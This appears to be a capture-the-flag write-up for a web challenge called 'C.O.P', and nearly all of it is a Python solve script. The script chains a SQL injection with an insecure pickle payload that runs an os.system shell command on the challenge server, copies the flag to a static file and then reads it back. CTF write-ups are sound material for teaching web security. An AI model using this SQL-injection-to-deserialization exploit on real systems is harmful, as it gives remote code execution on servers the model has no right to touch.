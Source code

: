 ```yaml
---
title: "C.O.P"
date: 2024-01-02 00:08:00 +0800
categories: [Jeopardy-CTF]
tags: [web, ctf, sqli, pickle, python]
image:
  path: /banners/cop.png
---
```




> Description :The C.O.P (Cult of Pickles) have started up a new web store to sell their merch. We believe that the funds are being used to carry out illicit pickle-based propaganda operations! Investigate the site and try and find a way into their operation!
{: .prompt-info }



# Solution:

```py
import pickle
import base64
import os
import requests

# Payload to be executed on the server
payload = 'cp flag.txt application/static/achux21.txt'

# Class definition for creating a serialized payload using Pickle
class RCE:
    def __reduce__(self):
        return os.system, (payload,)

# If the script is run directly, not imported as a module
if __name__ == '__main__':
    # Serialize the payload using Pickle and encode it in base64
    var = base64.urlsafe_b64encode(pickle.dumps(RCE())).decode('ascii')

# Craft a URL to trigger the SQL injection vulnerability
# The UNION SELECT statement is used to inject the serialized payload
r = requests.get(f"http://167.99.82.136:30931/view/%27%20UNION%20SELECT%27{var}")

# Retrieve the result of the executed payload
flag = requests.get(f"http://167.99.82.136:30931/static/achux21.txt")

# Print the result (flag)
print(flag.text)
```

# Bye

# ![image](https://y.yarn.co/787d48e3-8bf8-4364-91d4-98e55ef95579_text.gif)

